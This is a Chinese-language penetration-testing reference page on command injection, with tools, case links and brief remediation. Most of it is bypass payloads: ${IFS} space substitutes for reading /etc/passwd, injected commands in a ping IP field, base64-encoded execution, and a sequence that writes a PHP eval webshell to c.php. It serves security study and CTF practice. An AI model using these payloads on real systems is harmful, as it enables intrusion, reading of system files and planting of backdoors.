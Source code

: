 # RCE

---

## 免责声明

`本文档仅供学习和研究使用,请勿使用文中的技术源码用于非法用途,任何人造成的任何负面影响,与本人无关.`

---

**描述**

由于业务需求，程序有可能要执行系统命令的功能，但如果执行的命令用户可控，业务上有没有做好限制，就可能出现命令执行漏洞。

**相关工具**
- [commixproject/commix](https://github.com/commixproject/commix)

**相关案例**
- [静态站点托管平台仅能托管静态资源？](https://tttang.com/archive/1501/)
- [The Cloudflare Bug Bounty program and Cloudflare Pages](https://blog.cloudflare.com/pages-bug-bounty/)
    - [Cloudflare Pages, part 1: The fellowship of the secret](https://blog.assetnote.io/2022/05/06/cloudflare-pages-pt1/)
    - [Cloudflare Pages, part 2: The two privescs](https://blog.assetnote.io/2022/05/06/cloudflare-pages-pt2/)

**writeup**
- [BUUCTF--[第二章 web进阶]死亡ping命令](https://blog.csdn.net/qq_45414878/article/details/109672659)

---

## 绕过技巧

### 空格代替

空格在 bash 下，可以用以下字符代替空格
```
<
${IFS}
$IFS$9
%09
```

```
cat</etc/passwd
cat${IFS}/etc/passwd
cat$IFS$9/etc/passwd
cat%09/etc/passwd
```

$IFS 在 linux 下表示分隔符，只有 cat$IFSa.txt 的时候, bash 解释器会把整个 IFSa 当做变量名，所以导致没有办法运行，然而如果加一个 {} 就固定了变量名，同理在后面加个 $ 可以起到截断的作用，而 $9 指的是当前系统 shell 进程的第九个参数的持有者，就是一个空字符串，因此 $9 相当于没有加东西，等于做了一个前后隔离。

### 截断符号

比如测试 ping 功能的点，要求填写一个 ip 参数这样的题目，这个时候就需要测试截断符号，将你输入的 ip 参数和后面要执行的命令隔开。首先测试所有的截断符号：
```
$
;
|
-
(
)
`
||
&&
&
}
{
%0a
```

利用截断符号配合普通命令简单问题基本就出来；例如：ip=127.0.0.1;cat /home/flag.txt 这样就可以达到同时执行两条命令的效果

### 编码

这种绕过针对的是系统过滤敏感字符的时候，比如他过滤了cat命令，那么就可以用下面这种方式将cat先base64编码后再进行解码运行。
```
echo 'cat' | base64

`echo 'Y2F0Cg==' | base64 -d` /etc/passwd
```

针对一些代码执行的场景,可以通过在 base64 中添加干扰字符的方式尝试绕过
```
success-inject
c3VjY2Vzcy1pbmplY3Q=
```

php
```php
<?php
$str='--!~@--c3V$$j<$>Y--|@--2Vzcy1--|@--p--|@--b^^mp--|@--lY--|@--3Q=';
echo base64_decode($str);
?>
```

python
```python
import base64
leleyyds = base64.b64decode("--!~@--c3V$$j<$>Y--|@--2Vzcy1--|@--p--|@--b^^mp--|@--lY--|@--3Q=")
print(leleyyds.decode())
```

### 单引号

```
cat /etc/pass'w'd
```

### 反斜杠利用

linux 下创建文件的命令可以用 `1>1` 创建文件名为 1 的空文件

`ls>1` 可以直接把 ls 的内容导入一个文件中, 但是会默认追加 \n

**Linux**
```
w>hp\\
w>c.p\\
w>d\>\\
w>\ -\\
w>e64\\
w>bas\\
w>7\|\\
w>XSk\\
w>Fsx\\
w>dFV\\
w>kX0\\
w>bCg\\
w>XZh\\
w>AgZ\\
w>waH\\
w>PD9\\
w>o\ \\
w>ech\\
ls -t>ls
sh ls
```

- w 长度最短的命令
- ls -t 以创建时间来列出当前目录下所有文件
- 文件列表以[ [ 换 行符] ]分割每个文件
- 引入 `\` 转义ls时的换行
- 换行不影响命令执行
- 成功构造任意命令执行,写入Webshell

```bash
ls -t
echo PD9waHAgZXZhbCgkX0dFVFsxXSk7 | base64 -d>c.php
```

### Fuzz字典

- [RCE字典](https://github.com/ffffffff0x/AboutSecurity/tree/master/Payload/RCE)

---

## 修复方案

* 避免命令用户可控
* 如需用户输入参数，则对用户输入做严格校验，如&&、|、;等
